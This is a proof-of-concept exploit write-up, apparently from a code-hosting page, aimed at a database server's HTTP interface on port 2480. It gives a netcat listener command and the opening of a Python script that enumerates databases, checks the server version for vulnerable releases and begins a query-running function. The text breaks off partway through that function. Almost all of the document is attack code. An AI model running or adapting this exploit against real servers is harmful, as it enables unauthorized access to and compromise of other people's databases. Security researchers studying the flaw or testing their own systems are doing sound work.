## Proof of Concept
Run Netcat at port 8081

```
nc -lv 8081
```

Run the following:

```
python PoC.py ip [port] // By default uses 2480
```

PoC.py

```
import sys
import requests
import json
import string
import random

target = sys.argv[1]

try:
    port = sys.argv[2] if sys.argv[2] else 2480
except:
    port = 2480

url = "http://%s:%s/command/GratefulDeadConcerts/sql/-/20?format=rid,type,version,class,graph"%(target,port)


def random_function_name(size=5, chars=string.ascii_lowercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))

def enum_databases(target,port="2480"):

    base_url = "http://%s:%s/listDatabases"%(target,port)
    req = requests.get(base_url)

    if req.status_code == 200:
        #print "[+] Database Enumeration successful"
        database = req.json()['databases']

        return database

    return False

def check_version(target,port="2480"):
    base_url = "http://%s:%s/listDatabases"%(target,port)
    req = requests.get(base_url)

    if req.status_code == 200:

        headers = req.headers['server']
        #print headers
        if "2.2" in headers or "3." in headers:
            return True

    return False

def run_queries(permission,db,content=""):

    databases = enum_databases(target)

```